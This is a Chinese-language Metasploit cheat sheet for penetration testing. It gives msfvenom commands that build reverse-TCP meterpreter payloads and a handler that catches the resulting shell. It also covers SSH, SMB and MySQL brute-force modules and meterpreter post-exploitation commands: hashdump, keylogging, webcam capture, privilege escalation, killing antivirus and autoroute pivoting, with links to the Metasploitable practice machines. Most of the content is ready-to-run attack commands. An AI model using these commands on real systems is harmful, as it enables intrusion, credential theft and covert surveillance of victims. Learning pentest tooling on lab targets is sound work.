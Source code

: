 ```yaml
---
title: Metasploit漏洞利用框架
---
```


# 基本介绍

## Metasploit模块划分

MSF是渗透测试领域最流行的渗透测试框架，它有以下几个模块：

> 辅 助 模 块 (Auxiliary，扫描器)，扫描主机系统，寻找可用漏洞；
>
> 渗透攻击模块 (Exploits)，选择并配置一个漏洞利用模块；
>
> 攻击载荷模块 (Payloads)，选择并配置一个攻击载荷模块；
>
> 后渗透攻击模块 (Post)，用于内网渗透的各种操作；
>
> 编 码 器 模 块 (Encoders)，选择编码技术，绕过杀软（或其他免杀方式）；

 所有模块位置：`/usr/share/metasploit-framework/modules/` 

**渗透步骤（Exploit）**

```bash
search xxx		#搜索某个漏洞
use xxx			#使用某个漏洞利用模块
show options	#查看配置选项
set payload		#配置攻击载荷
exploit			#执行渗透攻击
```

## 参数摘要

```bash
reload_all		#从目录重载所有模块
back	#后退命令，移出当前上下文，用于模块切换
info	#目标和模块详细信息
check	#检查目标是否受某个漏洞影响

sessions		#会话管理
sessions -l		#列出所有会话
sessions -K		#终止所有会话
sessions -i id	#进入某个会话
sessions -v		#以详细模式列出会话
sessions -u		#在许多平台上将shell升级到meterpreter会话

show options	#显示可选选项
	 auxiliary	#显示所有辅助模块
	 exploits	#显示所有漏洞利用模块
	 payloads	#显示所有有效载荷
	 targets	#显示所有可用目标
	 advanced	#显示更多高级选项
	 encoders	#显示可用编码器列表
```

# 使用辅助模块（Auxiliary）

### 端口扫描

```bash
use auxiliary/scanner/portmap/portmap_amp
use auxiliary/scanner/portscan/ftpbounce
use auxiliary/scanner/portscan/tcp
use auxiliary/scanner/portscan/ack
use auxiliary/scanner/portscan/syn
use auxiliary/scanner/portscan/xmas
```

### 服务扫描

```bash
auxiliary/scanner/ssh/ssh_login		#SSH爆破
auxiliary/scanner/vnc/vnc_none_auth	#VNC空口令扫描
auxiliary/scanner/telnet/telnet_login#SSH爆破
auxiliary/scanner/smb/smb_version	#SMB系统版本扫描
auxiliary/scanner/smb/smb_enumusers	#SMB枚举
auxiliary/scanner/smb/smb_login		#SMB弱口令登录
auxiliary/admin/smb/psexec_command	#登录SMB且执行命令

auxiliary/scanner/mssql/mssql_ping	#MSSQL主机信息扫描
auxiliary/admin/mssql/mssql_enum	#MSSQL枚举
auxiliary/scanner/mysql/mysql_login	#MySQL弱口令扫描
auxiliary/admin/mysql/mysql_enum	#MySQL枚举
```

# 攻击载荷和编码（Payloads && Encoders）

**MSF可以用以下方式，生成payload和编码**

```bash
use windows/meterpreter_reverse_http

-E   强制编码
-e   要使用的编码器模块的名称
-f   输出文件名（否则为stdout）
-t   输出格式: raw,ruby,rb,perl,pl,c,java,dll,exe,elf,vbs,asp,war等
-b   要避免的字符列表: '\x00\xff'
```

**但是我个人更喜欢用`msfvenom`生成`shellcode`然后编码免杀。**

**Windows**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=Kali的IP LPORT=Kali监听端口 -f exe > msf.exe

参数选项：
-p			指定的payload
-e 			编码器，x86/shikata_ga_nai
-i			迭代器，对有效载荷的编码次数
-f			输出文件的格式,exe、dll、raw
```

**Linux**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.1.1.15 LPORT=6666 -f elf > msf.elf
```

# 监听反弹shell

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.1.1.15
msf5 exploit(multi/handler) > set LPORT 6666
msf5 exploit(multi/handler) > run
```

# Meterpreter用例

 刚获得`Meterpreter Shell`时，该Shell是极其脆弱的，可以把它和目标机中一个稳定的程序绑定

```bash
getpid			#查看当前Meterpreter Shell的进程号
ps				#获取目标机正运行的进程
migrate 476		#将shell迁移到PID为786的进程中
```

## 命令摘要

```bash
pwd、ls、cd
getuid		#查看当前权限
getsystem	#获得系统管理员权限（要本地管理员权限运行）
hashdump	#抓哈希密码
sysinfo		#查看系统信息
idletim     #查看目标系统已运行时间
route		#查看目标机完整网络设置
shell		#进入目标机shell，exit退出she
background	#将meterpreter隐藏在后台

upload ./1.txt c:\\1.txt		#上传文件
download c:\1.txt ./			#下载文件
search -f *.txt -d c://			#搜索文件

keyscan_start	#启动键盘记录
keyscan_stop	#停止键盘记录
keyscan_dump	#转储键盘记录的内容
screenshot		#抓取截屏
webcam_list		#摄像头列表
webcam_snap		#摄像头拍照
webcam_stream	#抓取视频

#Kali-Linux下登录远程桌面
sudo rdesktop -f 目标IP

route add IP 子网掩码    #添加路由，先background
```

# 后渗透模块（Post）

```bash
run post/windows/gather/checkvm		#检查目标是否虚拟机
run post/linux/gather/checkvm
run post/windows/manage/killav		#关闭杀软
run post/windows/manage/enable_rdp	#开启目标远程桌面
run post/windows/gather/enum_logged_on_users	#列举当前登陆用户，和最近登陆过的用户
run post/windows/gather/enum_applications		#列举应用程序
run windows/gather/credentials/windows_autologin#列举自动登陆的用户名和密码
```

MSF官方后渗透模块参考：https://www.offensive-security.com/metasploit-unleashed/post-module-reference/ 

# 网络穿透

**拿到反向shell之后，获取目标网络信息**

```bash
meterpreter > run get_local_subnets
```

 **使用`autoroute`模块添加路由** 

```bash
meterpreter > run autoroute -s 10.0.0.0/255.0.0.0
meterpreter > run autoroute -p		#列出添加了路由规则的存活session
```

 添加完成后返回上一层，这里一定要保证添加了路由规则的sessions的存活,如果sessions掉了对应的路由规则也就失效了

 添加完成后使用ms17_010的扫描脚本进行目标内网的扫描

# MSF靶机

**Metasploitable2：**

下载地址：https://sourceforge.net/projects/metasploitable/ 

官方教程：https://metasploit.help.rapid7.com/docs/metasploitable-2 

**Metasploitable3**：

下载地址：https://github.com/rapid7/metasploitable3/

 视频教程演示：https://www.youtube.com/playlist?list=PLZOToVAK85MpnjpcVtNMwmCxMZRFaY6mT 


